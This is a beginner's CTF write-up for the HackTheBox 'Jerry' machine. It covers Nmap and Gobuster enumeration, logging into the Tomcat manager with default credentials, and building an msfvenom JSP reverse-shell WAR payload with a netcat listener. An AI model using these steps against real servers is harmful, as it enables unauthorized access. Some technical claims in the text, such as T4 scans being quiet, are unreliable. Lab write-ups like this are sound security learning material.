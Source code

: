 # About me

Welcome all to my ``Offensive Security`` journey and first ever write up.
I have been active on ```HackTheBox``` and `Tryhackme` since December 2020.
However I have only been able to work on few  machines during the last two years while learning about ```Info-Sec``` fundamentals on ```TryHackMe``` and others few online platforms, also while I completed my degree.

Before we dive in the write up  for the first machine i Pwned that is```Jerry``` ,it's important to note that prior rooting the first machine on ```Hackthebox``` I have quasi zero experience in ``Hacking`` neither in infornation security. Since then I have been on mission to learn more about information. I then dedicated myself to pursue knowledge in this interesting field.

If you are new to ```Cyber Security```, there are many platforms out there that can help you get the knowledge .
As of now I am still learner and I believe in this industry ```Learning don't Stop```. I am currently going for my first certification that is the ```eJPT``` from ```Elearnsecurity```. in the next step I would be guiding to how i hacked my first machine on Hackthebox.

# Set-up

Note that i left out some of the step I took like, setting up the box, connecting to the vpn and more. let's get into now.

# Jerry


![ping](https://user-images.githubusercontent.com/61636217/175174375-06a23643-f5d6-4390-a405-267d623c635b.png)




From the ping command we can identify that our target machine runs on ```Windows OS``` by looking at the ```TTL(Time to live)``` response. This a trick that I learned from some of the big names I watched sovling boxes on Youtube.
We have ping the machine and it echoed back to us.
Now we will proceed on scanning for open ports and enumerate all services running on our target machine.

To discover what services are currently running on the target machine, I used ```Nmap``` however there other tools that can give you the same output as ```nmap```.


# Nmap


```Nmap -sC -sV -T4  -Pn <IP Address> -oN <outputfile>```

```sC``` is for default scripts scan.
```sV``` is for version of the services runnimg.
```T4``` is the speed of the scan. not that, this method is crucial because you don't want to make to much noise in the network traffic so declaring a speed of four the best you need for a fast scan.
```oN``` is redirect that fouding into a file. This you would nao

![scan](https://user-images.githubusercontent.com/61636217/173915915-977a8bd6-0ef2-4280-8b91-0ac00db0a277.png)

# Gobuster

After we have ran the ```Nmap``` command we have discovered that there is 2 open ports on our target machine.

```22``` & ``8080``. We noticed that a Tomcat is running on that machine.
Before going deep in the attack we must first try enumerate some port on port 8080 to find out what directory are hosted in the application adn for that I ran ```Gobuster``` for directory discovery.

``` gobuster dir --url  http://<ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100```
we discover an interesting directory ```Manager```.
From this step there are differents way you can plan your attack. Here We are going to exploit a misconfigure Tomcat Server.
by default All Tomcat creds are ```tomcat``` & ```s3cret```. but there are other ways to get creds.Navitgating to that Manager directory on port 8080 we prompted with sign in option. to get creds the easy way is the hit the ```cancel``` button and you will redirected to a ```401 Unauthorized``` that display the credentials in plain text. Or you can use ``Metasploit`` to run an exploit against Tomcat server to get the credentials.

# Attack

![8080](https://user-images.githubusercontent.com/61636217/175167658-cc992ea4-6978-43ab-ad94-e186c93ab26d.png)

![signin](https://user-images.githubusercontent.com/61636217/175167703-d26fcaa2-e862-45e8-ae76-ed85f98c9fda.png)


![creds](https://user-images.githubusercontent.com/61636217/175167731-af77b831-5f62-4c9a-b87a-d3bd4ad4ba48.png)

![manager](https://user-images.githubusercontent.com/61636217/175167776-b4adf04a-afc3-4998-b984-2b408783d7aa.png)

Looking at that last picture after we have successfully logged in the application we see that we have an option to upload a war file.
This is our point of entry to the system. Back on my console I created a war file payloads with ```msfvenom``` to get a reverse shell.
the command I ran ```msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f <File_extension> -o <file_output.war>```
I then had my payload ready to get uploaded on the target application with a listener that I had ready to receive connection from our targer after we have executed tha file that we uploaded on the server. the command was ``nc -lnvp <Port>``.

# Getting a SHELL

![shell](https://user-images.githubusercontent.com/61636217/175169884-bacaa480-f6a3-480a-96d8-db75e03d506a.png)

Our payloads executed well and gave us a shell. We then proceed to navigate our in the target system to retreive the flags.

# Flags


![flags](https://user-images.githubusercontent.com/61636217/175169915-39c55c4d-b7a1-408e-926f-4c42c5990559.png)

For this machine we did not need to escalated our privileges  to get the root flag because we had the ``` Two for one ``` flags in one file.
This was my first machine I worked on on ```Hackthebox``` it is realistic as Apache Tomcat who is often found configured with common or weak credentials.


